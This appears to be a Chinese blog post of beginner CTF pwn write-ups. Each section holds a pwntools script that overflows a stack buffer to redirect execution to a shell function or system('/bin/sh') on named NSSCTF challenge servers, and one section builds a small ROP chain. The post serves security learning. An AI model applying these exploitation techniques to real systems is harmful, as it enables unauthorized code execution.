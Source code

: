 ```yaml
---
title: PWN入门-ret2text做题
date: 2024-01-26 22:32:43
tags: PWN
mathjax: true
---
```


# PWN入门-ret2text做题

## [SWPUCTF 2021 新生赛]gift_pwn

```bash
checksec 文件名
```

* 开启堆栈不可执行保护(NX)，不会把堆栈上数据当成指令来执行。

* 没有canary保护，可利用栈溢出来修改eip。

* PIE地址随机花没有开启。

```python
from pwn import *
p=remote('node4.anna.nssctf.cn',28708)
payload=b'a'*0x10+b'a'*8+p64(0x4005B6) #32位+4 64位+8
p.sendline(payload)
p.interactive()
```

## [CISCN 2019华北]PWN1

```python
from pwn import *
context(log_level='debug',arch='amd64',os='linux')
p=process('./attachment')
payload=b'a'*0x2c+p64(0x41348000)
p.sendline(payload)
p.interactive()
```

## [BJDCTF 2020]babystack2.0

```python
from pwn import *
context(log_level='debug',arch='amd64',os='linux')
p=remote('node4.anna.nssctf.cn',28830)
p.recvuntil("[+]Please input the length of your name:")
p.sendline(b'-1')
p.recvuntil("[+]What's u name?")
bin_sh=p64(0x400726)
payload=flat([b'a'*0x10,b'a'*8,bin_sh])
p.sendline(payload)
p.interactive()
```

## [BJDCTF 2020]babystack

```python
from pwn import *
context(log_level='debug',arch='amd64',os='linux')
p=remote('node4.anna.nssctf.cn',28487)
p.recvuntil("[+]Please input the length of your name:")
p.sendline(b'999')
p.recvuntil("[+]What's u name?")
bin_sh=p64(0x4006E6)
payload=flat([b'a'*0x10,b'a'*8,bin_sh])
p.sendline(payload)
p.interactive()
```

## [NISACTF 2022]ezstack

```python
from pwn import *
context(log_level='debug',arch='i386',os='linux')
p=remote('node5.anna.nssctf.cn',28073)
p.recvuntil("Welcome to NISACTF")
system_addr=p32(0x8048512)
bin_sh_addr=p32(0x804a024)
payload=flat([b'a'*0x48,b'a'*4,system_addr,bin_sh_addr])
p.sendline(payload)
p.interactive()
```

## [watevrCTF 2019]Voting Machine 1

```python
from pwn import *
context(log_level='debug',arch='amd64',os='linux')
p=remote('node5.anna.nssctf.cn',28446)
p.recvuntil('Vote: ')
backdoor_addr=p64(0x400807)
payload=flat([b'a'*0x2,b'a'*8,backdoor_addr])
p.sendline(payload)
p.interactive()
```

## [GFCTF 2021]where_is_shell

“/bin/sh”等同于“sh”等同于“\$0”，“\$0”为0x2430，正好tips函数中有个花指令可以利用。

构造rop链：

栈对齐随便打一个ret:

```bash
ROPgadget --binary shell --only "ret"
```

system由rdi传参，找pop_rdi_ret型gadget：

```bash
ROPgadget --binary shell --only "pop|ret"
```

将\$0地址压栈，再从plt劫持system地址打。

```python
from pwn import *
import struct
context(log_level='debug',arch='amd64',os='linux')
elf=ELF('./shell')
p=remote("node4.anna.nssctf.cn",28367)
p.recvuntil("zltt lost his shell, can you find it?")
ret_addr=p64(0x400416)
pop_rdi_ret_addr=p64(0x4005e3)
bin_sh_addr=p64(0x400541)
system_addr=p64(elf.plt["system"])
payload=flat([b'a'*0x10,b'a'*8,ret_addr,pop_rdi_ret_addr,bin_sh_addr,system_addr])
p.sendline(payload)
p.interactive()
```

## [HNCTF 2022 Week1]easyoverflow

略。

## [NSSCTF 2022 Spring Recruit]R3m4ke?

```python
from pwn import *
context(log_level='debug',os='linux',arch='amd64')
p=remote('node4.anna.nssctf.cn',28510)
stack_overflow=cyclic(0x20+8)
shell_addr=p64(0x40072C)
payload1=flat([stack_overflow,shell_addr])
p.recvuntil("[+] Welcome to NSS , this is a very simple PWN question for getting started>")
p.sendline(payload1)
p.interactive()
```

## [WUSTCTF 2020]getshell

```python
from pwn import *
context(log_level='debug',os='linux',arch='i386')
p=remote("node5.anna.nssctf.cn",28644)
elf=ELF('./attachment')
stack_overflow=cyclic(0x18+4)
shell_addr=p32(elf.sym["shell"])
payload1=flat([stack_overflow,shell_addr])
p.sendline(payload1)
p.interactive()
```

## [HNCTF 2022 Week1]ezr0p32

32位函数传参都在栈上，不牵扯寄存器。栈溢出后直接打system，内部先pop出call压入的ebp，所以先填充一个双字的垃圾，栈里第二个位置开始即为传参。

```python
from pwn import *
context(log_level='debug',os='linux',arch='i386')
elf=ELF('./attachment')
p=remote("node5.anna.nssctf.cn",28745)
p.recvuntil("please tell me your name")
payload1=b'/bin/sh'
p.sendline(payload1)
p.recvuntil("now it's your play time~")
stack_overflow=b'a'*(0x1c+4)
system_addr=p32(elf.sym["system"])
skip_ebp=b'aaaa'
buf_addr=p32(elf.sym["buf"])
payload2=flat([stack_overflow,system_addr,skip_ebp,buf_addr])
p.sendline(payload2)
p.interactive()
```

## [SWPUCTF 2022 新生赛]有手就行的栈溢出

```python
from pwn import *
context(log_level='debug',arch='amd64',os='linux')
elf=ELF('./attachment')
p=remote("node5.anna.nssctf.cn",28415)
stack_overflow=b'a'*(0x20+8)
fun_addr=p64(elf.sym["fun"])
payload1=flat([stack_overflow,fun_addr])
p.sendline(payload1)
p.interactive()
```
